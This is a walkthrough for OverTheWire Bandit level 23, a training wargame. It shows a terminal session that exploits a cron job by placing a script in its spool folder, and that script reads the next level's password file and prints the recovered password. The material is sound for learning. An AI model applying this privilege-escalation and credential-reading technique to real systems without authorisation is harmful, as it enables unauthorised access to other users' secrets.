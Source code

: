 <br>
<hr>

## Bandit Level 23

### Level Goal

A program is running automatically at regular intervals from  **cron**, the time-based job scheduler. Look in  **/etc/cron.d/**  for the configuration and see what command is being executed.

**NOTE:**  This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:**  Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```bash
➜ ssh bandit.labs.overthewire.org -p 2220 -l bandit23

bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24 # View Cronjob
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh # View Script
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo || exit 1 # If cd Fails Program Will Exit
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*; # * -> Visible Files, .* -> Hidden Files
do
    if [ "$i" != "." -a "$i" != ".." ]; # If Not Current Directory or Parent Directory
    then
        echo "Handling $i" 
        owner="$(stat --format "%U" ./$i)" # Check For Owner
        if [ "${owner}" = "bandit23" ]; then # Execute Files Created By bandit23
            timeout -s 9 60 ./$i 
        fi
        rm -rf ./$i # Delete Scripts
    fi
done
``` 

```bash
bandit23@bandit:/etc/cron.d$ cd `mktemp -d`

bandit23@bandit:/tmp/tmp.WP2yI80AKP$ echo -e '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/tmp.WP2yI80AKP/flag' > getflag

bandit23@bandit:/tmp/tmp.WP2yI80AKP$ cat getflag # Payload
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.WP2yI80AKP/flag 

bandit23@bandit:/tmp/tmp.WP2yI80AKP$ chmod +x getflag # Make File Executable

bandit23@bandit:/tmp/tmp.WP2yI80AKP$ chmod 777 /tmp/tmp.WP2yI80AKP # Allow Other Users To Write In Current Directory

bandit23@bandit:/tmp/tmp.WP2yI80AKP$ cp getflag /var/spool/bandit24/foo/ # Copy File To Be Executed

# Wait...

bandit23@bandit:/tmp/tmp.WP2yI80AKP$ cat flag 
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```